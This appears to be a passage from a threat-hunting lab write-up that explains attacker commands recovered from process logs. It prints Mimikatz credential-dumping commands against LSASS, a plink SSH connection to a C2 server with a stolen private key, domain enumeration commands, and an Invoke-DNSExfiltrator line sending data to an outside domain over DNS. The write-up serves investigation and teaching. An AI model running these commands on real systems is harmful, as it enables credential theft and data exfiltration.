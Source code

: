     - `"privilege::debug"`: This is a command passed to Mimikatz. It grants the debug privilege to the process running Mimikatz. Debug privilege is necessary for certain operations, especially those interacting with LSASS (Local Security Authority Subsystem Service).
    - `"sekurlsa::logonpasswords full"`: This is another Mimikatz command. It instructs Mimikatz to perform a specific action - in this case, extracting logon passwords from LSASS (~dump credentials).
    - `exit`: This command is used to exit Mimikatz after the specified commands have been executed.
    - `>> C:\log.txt`: This redirects the standard output of Mimikatz to a file named "log.txt" in the root of the C: drive.

In summary, this command sequence uses Procdump to create a memory dump of the LSASS process and then uses Mimikatz to analyze that dump the credentials.

II. `plink.exe -i C:\Users\admin\.ssh\id_rsa 198.161.105.253 -q`
- `plink.exe`: This is the executable for Plink, a command-line SSH client for Windows.
- `-i C:\Users\admin\.ssh\id_rsa`: This flag specifies the private key file to be used for authentication. In this case, the private key is located at `C:\Users\admin\.ssh\id_rsa`.
- `198.161.105.253`: This is the IP address of the remote server to which you want to connect via SSH.
- `-q`: This flag stands for "quiet" and is used to suppress informational messages during the connection, making the output less verbose.

In summary, the command is initiating an SSH connection to the C2 server using the private key located at `C:\Users\admin\.ssh\id_rsa`, and suppressing additional informational messages with the `-q` flag. This is often used in automation scripts or scenarios where a quiet and automated connection is desired.

Now let's see what happens after `plink` was executed on `jojones` computer and filter for cmd/powershell for shell commands.

```sql
ProcessEvents
| where username == 'jojones'
| where timestamp > datetime('2023-05-17T09:20:15Z')
| where process_name in ('powershell.exe', 'cmd.exe')
```

Attacker seems to have enumerated the system with first commands and finally they used **[Invoke-DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator/tree/master)**: <br>
_DNSExfiltrator allows for transferring (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel._

```powershell
cmd.exe whoami
cmd.exe ipconfig /all
cmd.exe net localgroup administrators /domain
cmd.exe nltest /dc:list
C:\Windows\System32\cmd.exe nslookup google.com
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
C:\Windows\System32\powershell.exe powershell Get-WmiObject -Class Win32_NetworkAdapterConfiguration
Import-Module Invoke-DNSExfiltrator.ps1
Invoke-DNSExfiltrator -i Invoke-DNSExfiltrator.ps1 -d exfil.castlesand.zip -p ssad3 -doh cloudflare -t 500
C:\Windows\System32\cmd.exe nslookup google.com
```
